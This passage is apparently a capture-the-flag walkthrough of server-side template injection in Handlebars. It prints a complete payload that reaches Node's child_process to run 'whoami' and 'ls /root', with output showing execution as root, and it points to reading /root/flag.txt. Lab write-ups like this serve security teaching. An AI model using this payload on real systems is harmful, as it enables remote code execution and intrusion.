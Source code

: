 - There is no error. We get an `[object Object]` return that indicates it worked. Accessible.
- Try to get a system command to work (encode to URL, paste into Repeater): 

```
{{#with "s" as |string|}}
{{#with "e"}}
{{#with split as |conslist|}}
{{this.pop}}
{{this.push (lookup string.sub "constructor")}}
{{this.pop}}
{{#with string.split as |codelist|}}
{{this.pop}}
{{this.push "return process.mainModule.require('child_process').execSync('whoami');"}}
{{this.pop}}
{{#each conslist}}
{{#with (string.sub.apply 0 codelist)}}
{{this}}
{{/with}}
{{/each}}
{{/with}}
{{/with}}
{{/with}}
{{/with}}
```

- Line to watch: 
  `{{this.push "return process.mainModule.require('child_process').execSync('whoami');"}}`
- That should give you `root`

```
</div>
  <p class="result">
    We will contact you at: e
    2
    [object Object]
    function Function() { [native code] }
    2
    [object Object]
    root                                     #  <<-- whomai returned "root"
  </p>
</div>
```

- Now just replace `whoami` with `ls /root` and you should see the flag file. Use `cat /root/flag.txt` in the line above (encode to URL, paste into Repeater). Should get it.

```
{{#with "s" as |string|}}
{{#with "e"}}
{{#with split as |conslist|}}
{{this.pop}}
{{this.push (lookup string.sub "constructor")}}
{{this.pop}}
{{#with string.split as |codelist|}}
{{this.pop}}
{{this.push "return process.mainModule.require('child_process').execSync('ls /root');"}}
{{this.pop}}
{{#each conslist}}
{{#with (string.sub.apply 0 codelist)}}
{{this}}
{{/with}}
{{/each}}
{{/with}}
{{/with}}
{{/with}}
{{/with}}
```